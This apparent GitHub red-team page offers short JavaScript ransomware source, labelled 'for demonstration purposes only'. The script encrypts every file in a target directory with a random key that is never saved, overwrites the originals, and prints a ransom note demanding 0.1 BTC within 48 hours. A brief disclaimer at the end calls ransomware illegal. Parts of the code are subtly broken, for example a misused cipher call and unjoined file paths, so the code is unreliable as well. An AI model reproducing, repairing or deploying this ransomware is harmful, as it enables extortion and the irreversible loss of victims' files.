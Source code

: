 # Ransomware code in JavaScript
##### RedTeam - Technics
(for-demonstration-purposes-only to understand the technic behind.
```
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // Write encrypted data back to file
  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
To decrypt your files, send 0.1 BTC to the following address:
<Bitcoin_Address>
Once payment is received, your files will be decrypted.
If payment is not made within 48 hours, the encryption key will be deleted, and your files will be lost forever.
`;

console.log(ransomNote);

```
Please note that creating or using ransomware is illegal and unethical. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.
